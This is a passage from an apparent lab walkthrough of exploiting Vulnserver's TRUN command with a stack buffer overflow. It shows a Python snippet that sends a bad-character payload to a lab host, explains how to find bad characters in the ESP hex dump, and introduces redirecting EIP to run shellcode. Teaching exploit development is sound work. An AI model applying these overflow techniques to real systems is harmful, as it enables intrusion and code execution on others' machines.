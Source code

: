```c
payload+=b"B"*4
# to load badchars in ESP
payload+=badchars
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.141", 9999))
s.send((b"TRUN /.:/"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ python3 bad_chars.py    
```

You could see the hexdump of the ESP data after EIP and you could manually figure out which are the bad characters

Select the address on the ESP register, right click on it and select follow hex dump

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/badchars-manual.png" style="width:40%">
</div>

Seems like we don't have any bad characters, except ```x00``` which is also known as ```null byte``` (It's always considered as a bad character while exploitation)

## Redirecting the Execution

As for now, we can control the ```EIP``` and also we have only one bad character ```x00```,

Since we can control ```EIP```, we can use this as our advantage and redirect the code flow to any part of the memory where it is perfect to have shellcode execution
